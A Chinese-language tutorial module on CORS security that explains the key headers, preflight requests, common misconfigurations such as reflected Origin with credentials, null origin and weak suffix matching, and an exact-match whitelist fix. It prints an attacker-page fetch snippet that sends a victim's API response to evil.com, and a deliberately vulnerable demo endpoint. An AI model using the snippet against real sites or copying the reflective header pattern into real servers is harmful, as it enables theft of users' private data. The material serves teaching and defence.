


# 04 · CORS 安全（Cross-Origin Resource Sharing 配置误区）

> CORS 是同源策略的「受控放行阀门」：服务器通过响应头**主动授权**特定源可以读取响应。配置得当它是功能；配置不当（尤其反射 Origin + 允许凭证）它就变成把用户数据拱手送人的严重漏洞。

## 📖 知识讲解

### CORS 是干什么的

同源策略默认禁止 JS 读取跨源响应体。CORS 让**服务器**用响应头声明「我允许某某源读我的响应」。注意：**放行权在服务器**，浏览器只是执行者。CORS 放松的是「跨源**读**」，它**不能**防 CSRF（CSRF 攻击的是写，不需要读响应）。

### 关键响应头

| 头 | 作用 |
|----|------|
| `Access-Control-Allow-Origin` | 允许哪个源读响应。值为具体源如 `https://app.com` 或 `*`（通配） |
| `Access-Control-Allow-Credentials` | 是否允许携带凭证（Cookie / HTTP 认证）。为 `true` 时 **ACAO 不能是 `*`** |
| `Access-Control-Allow-Methods` | 预检允许的方法 |
| `Access-Control-Allow-Headers` | 预检允许的自定义请求头 |
| `Access-Control-Max-Age` | 预检结果缓存时间 |
| `Vary: Origin` | 动态返回 ACAO 时必须加，避免缓存把 A 源的授权返回给 B 源 |

### 简单请求 vs 预检请求

- **简单请求**（GET/HEAD/POST + 简单头 + 简单 Content-Type 如 `text/plain`/`application/x-www-form-urlencoded`/`multipart/form-data`）：浏览器直接发，附带 `Origin` 头，看响应的 ACAO 决定是否让 JS 读。
- **预检请求（Preflight）**：非简单请求（如 `PUT`、`DELETE`、`Content-Type: application/json`、自定义头）先发一个 `OPTIONS` 询问服务器允不允许，服务器返回允许头后才发真实请求。



### 危险的配置误区（重点）

#### ❌ 误区 1：反射 Origin + 允许凭证（最严重）

```
# 服务器把请求的 Origin 原样回显，且允许带 Cookie
Access-Control-Allow-Origin: <请求里的 Origin，任意值都回显>
Access-Control-Allow-Credentials: true
```

等于对**任意**源都授权带凭证读响应。攻击者页面即可：
```js
fetch('https://victim-api.com/account', { credentials: 'include' })
  .then(r => r.text()).then(data => fetch('https://evil.com/steal?d=' + data));
```
浏览器带上受害者的 Cookie，服务器回显 evil.com 为允许源，攻击者**读到受害者私密数据**。这是 CORS 头最典型、最危险的错误。

#### ❌ 误区 2：允许 `null` 源

```
Access-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true
```
浏览器在**沙箱 iframe、`file://`、重定向**等场景下会发送 `Origin: null`。攻击者用 `<iframe sandbox>` 就能伪造 `null` 源命中白名单。**永远不要把 `null` 加入白名单**。

#### ❌ 误区 3：`Access-Control-Allow-Origin: *` 配 `Credentials: true`

规范禁止这种组合，浏览器会拒绝。但有些服务器错误地手动组合，或用宽松的正则匹配 Origin（如只判断 `endsWith('victim.com')`，被 `evil-victim.com` 或 `victim.com.evil.com` 绕过）。

#### ❌ 误区 4：Origin 白名单校验有缺陷

```js
// ❌ 弱校验：子串/后缀匹配可被绕过
if (origin.endsWith('trusted.com')) allow(origin);   // evil-trusted.com 通过
if (origin.includes('trusted.com')) allow(origin);   // trusted.com.evil.com 通过
```

### 正确做法

```js
// ✅ 严格白名单精确匹配，且对需要凭证的接口绝不反射任意 Origin
const ALLOW = new Set(['https://app.example.com', 'https://admin.example.com']);
app.use((req, res, next) => {
  const origin = req.headers.origin;
  if (ALLOW.has(origin)) {                 // 精确相等匹配
    res.setHeader('Access-Control-Allow-Origin', origin);
    res.setHeader('Access-Control-Allow-Credentials', 'true');
    res.setHeader('Vary', 'Origin');       // 动态回显必加，防缓存串源
  }
  next();
});
```

原则：
- 需要凭证 → **精确白名单**，逐个相等比较，绝不反射、绝不 `*`、绝不 `null`。
- 公开只读、无凭证的 API → 可用 `Access-Control-Allow-Origin: *`（但不带 Cookie）。
- 动态回显 Origin 时务必 `Vary: Origin`。
- CORS 不替代鉴权：能读到的接口本身也应有权限控制。

## 🔄 流程图 / 原理图



## 💻 代码说明

本模块以**文档 + 配置对照**为主（CORS 是服务器行为，浏览器端只是发请求）。`server-demo.js` 给出一个 Node 原生 `http` 服务器，包含 `/vulnerable`（反射 Origin，错误）与 `/safe`（精确白名单，正确）两个接口，可对照抓包观察响应头差异。

关键对照：
```js
// ❌ /vulnerable：反射 Origin —— 任意源都能带凭证读
res.setHeader('Access-Control-Allow-Origin', req.headers.origin || '*');
res.setHeader('Access-Control-Allow-Credentials', 'true');

// ✅ /safe：精确白名单
if (ALLOW.has(req.headers.origin)) {
  res.setHeader('Access-Control-Allow-Origin', req.headers.origin);
  res.setHeader('Access-Control-Allow-Credentials', 'true');
  res.setHeader('Vary', 'Origin');
}
```

## ▶️ 运行方式

```bash
node server-demo.js       # 启动在 http://localhost:3000
```
然后用 curl 对照两个接口的响应头（重点看 `Access-Control-Allow-Origin`）：
```bash
curl -s -D - -o /dev/null -H "Origin: https://evil.com" http://localhost:3000/vulnerable
curl -s -D - -o /dev/null -H "Origin: https://evil.com" http://localhost:3000/safe
```
你会看到 `/vulnerable` 把 `https://evil.com` 原样回显（危险），而 `/safe` 不返回 CORS 头（安全）。

## ⚠️ 常见坑 / 最佳实践

- **CORS 不是鉴权**：它决定「浏览器让不让 JS 读」，不决定「服务器要不要处理」。服务端接口仍需身份与权限校验。
- **CORS 不防 CSRF**：CSRF 攻击的是写，不读响应，配再严的 CORS 也拦不住 CSRF（要用 Token/SameSite）。
- 别用后缀/子串匹配 Origin，要精确相等（用 `Set`/数组精确比较）。
- 动态回显 Origin 一定加 `Vary: Origin`，否则 CDN/代理缓存会把某源的授权错发给别的源。
- `Access-Control-Allow-Credentials: true` 时 ACAO 不能是 `*`、不能是 `null`。
- 生产环境不要图省事全站 `*`，尤其带 Cookie 的接口。

## 🔗 官方文档

- MDN CORS：<https://developer.mozilla.org/zh-CN/docs/Web/HTTP/CORS>
- PortSwigger CORS 漏洞：<https://portswigger.net/web-security/cors>
- OWASP HTML5/CORS 安全：<https://cheatsheetseries.owasp.org/cheatsheets/HTML5_Security_Cheat_Sheet.html>
